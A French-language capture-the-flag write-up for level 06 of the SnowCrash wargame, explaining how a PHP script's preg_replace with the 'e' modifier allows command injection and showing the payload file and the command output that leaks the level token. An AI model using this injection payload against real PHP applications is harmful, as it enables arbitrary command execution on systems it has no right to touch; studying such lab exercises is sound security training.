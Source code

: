# Level06

Il y a un script php dans le home.
Nous utilisons un beautifier pour avoir une version plus compréhensible. (https://beautifytools.com/php-beautifier.php)

![image](./screen1.png)

Le script effectue des substitutions par regexs,
il remplace les crochets par des parenthèses et
utilise le flag 'e' dans une des regex ce qui est une faille de sécurité, car nous pouvons l'utiliser pour executer des commandes, en se servant de la syntaxe des variables pour contourner les différentes sécurités :

Nous éxécutons le script sur notre fichier /tmp/file

```bash
level06@SnowCrash:~$ cat /tmp/file
[x ${`getflag`}]

level06@SnowCrash:~$ ./level06 /tmp/file
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
 in /home/user/level06/level06.php(4) : regexp code on line 1

```
Le token sort dans l'erreur PHP.